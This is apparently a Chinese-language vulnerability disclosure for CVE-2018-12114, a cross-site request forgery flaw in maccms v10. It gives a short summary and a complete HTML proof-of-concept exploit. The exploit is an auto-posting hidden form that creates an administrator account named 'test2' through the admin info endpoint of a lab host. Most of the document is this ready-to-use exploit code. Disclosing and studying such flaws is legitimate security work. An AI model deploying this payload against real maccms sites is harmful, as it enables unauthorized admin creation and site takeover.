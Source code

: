 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|maccms_v10存在CSRF漏洞可增加任意账号|2018-06-11|Bay0net|[http://www.maccms.com/](http://www.maccms.com/) | [http://www.maccms.com/down.html](http://www.maccms.com/down.html) |v10| [CVE-2018-12114](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-12114)|  

#### 漏洞概述  

> 恶意攻击者可以精心伪造一个Html页面添加管理员账户对网站进行入侵。   
 
### POC实现代码如下：  

> exp代码如下：  

``` html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.211.55.17/maccms10/admin.php/admin/admin/info.html" method="POST">
      <input type="hidden" name="admin_id" value="" />
      <input type="hidden" name="admin_name" value="test2" />
      <input type="hidden" name="admin_pwd" value="test2" />
      <input type="hidden" name="admin_status" value="1" />
      <input type="hidden" name="admin_auth[0]" value="index/welcome" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
